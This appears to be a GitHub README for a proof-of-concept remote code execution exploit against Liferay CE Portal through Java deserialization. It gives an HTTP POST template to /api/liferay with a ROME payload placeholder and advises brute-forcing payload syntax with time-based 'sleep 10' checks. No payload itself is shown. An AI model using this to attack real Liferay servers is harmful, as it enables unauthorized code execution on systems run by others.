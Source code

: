 # Liferay-CE-Portal-Java-Deserialization
This repo contains PoC for the remote code execution vulnerability of Liferay CE Portal!

# Payloads
I already shared payloads in repo. You must find the right syntax by brute-force method.Payloads I share are for time-based proof of concept (sleep 10). The application may not always output the command. That's why you should try time-based payload while doing PoC.

# Proof Of Concept

POST /api/liferay HTTP/1.1
Host: TARGET  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close


ROME-PAYLOAD-FILE

# Example PoC
